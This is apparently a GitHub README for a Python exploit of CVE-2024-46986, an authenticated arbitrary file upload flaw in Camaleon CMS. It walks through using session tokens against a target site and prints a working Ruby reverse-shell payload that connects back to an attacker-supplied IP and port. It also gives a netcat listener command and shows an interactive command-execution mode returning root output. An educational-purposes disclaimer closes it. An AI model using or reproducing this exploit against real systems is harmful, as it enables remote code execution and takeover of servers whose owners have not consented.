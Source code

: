 # CVE-2024-46986

# Camaleon CMS Exploit - Arbitrary File Upload

This repository contains a Python script that automates the exploitation of a file upload vulnerability in Camaleon CMS. The vulnerability allows an attacker to upload arbitrary files (such as Ruby scripts) to the server, potentially leading to remote code execution (RCE) or other severe security impacts.

## Features
- **File Upload Exploit**: Uploads malicious Ruby scripts to the target server.
- **Payload Options**: Choose between a reverse shell payload and a command execution payload.
- **Repeated Command Execution**: For the command execution payload, the script allows the user to repeatedly enter commands.
- **Automation**: Automates the entire process using Python's `requests` library.

## Pre-requisites
- **Valid User Credentials**: An authenticated session is required for the exploit to work. You need the `auth_token` and `_cms_session` of a valid user.
- **Python 3.x**: Ensure you have Python 3.x installed.
- **Python `requests` library**: Install the `requests` library if not already installed.
  
  ```bash
  pip install requests

## Usage

    Clone the repository:

    bash

https://github.com/vidura2/CVE-2024-46986.git
cd CVE-2024-46986

## Modify the script:

    Replace the placeholders your_auth_token_here, your_session_token_here, and https://target_site_here in the Python script with actual values.
    If using the reverse shell payload, also replace your_ip and your_port with your IP address and the port on which you will set up a listener.

## Choose the payload type:

    Reverse Shell: To upload a reverse shell, set the payload_type variable in the script to "reverse_shell".
    Command Execution: To upload a script that executes system commands, set payload_type to "command_execution". You will be able to repeatedly enter commands to execute on the target server.

## Run the exploit:

bash

python exploit_camaleon.py

If using the command execution payload, you can enter multiple commands:

bash

    Enter a system command to execute (or type 'exit' to quit): whoami
    Enter a system command to execute (or type 'exit' to quit): ls
    Enter a system command to execute (or type 'exit' to quit): exit

Payload Types
  1. Reverse Shell

The reverse shell payload connects back to the attacker's machine, allowing remote code execution on the server.

    Modify the IP and port in the Ruby script inside the Python code.

    Example payload:

    ruby

require 'socket'
s = TCPSocket.open('your_ip', your_port)
while (cmd = s.gets)
  IO.popen(cmd, 'r') do |io|
    s.print io.read
  end
end

Set up a listener on your machine using netcat:

bash

    nc -lvnp <your_port>

  2. Command Execution

This payload uploads a Ruby script that executes system commands (e.g., whoami) on the server. You can repeatedly enter commands during execution.

    The script will keep asking for commands until you type exit.
    Example:

    ruby

    system("whoami")

Example of Successful Exploit

Once the exploit is successfully executed, you should see output in the terminal indicating success:

python

Exploit executed successfully with payload type: reverse_shell!

If you use the reverse shell, the netcat listener should give you access to the compromised server's shell.

For the command execution payload:

bash

Enter a system command to execute (or type 'exit' to quit): whoami
Command 'whoami' executed successfully!
Response: root

## Disclaimer

This script is intended for educational purposes only. The author is not responsible for any misuse or damage caused by this exploit. Always ensure you have permission before testing or exploiting vulnerabilities.
Contributing

Feel free to submit issues or pull requests for improvements or additional features!
## License

This project is licensed under the MIT License - see the LICENSE file for details.
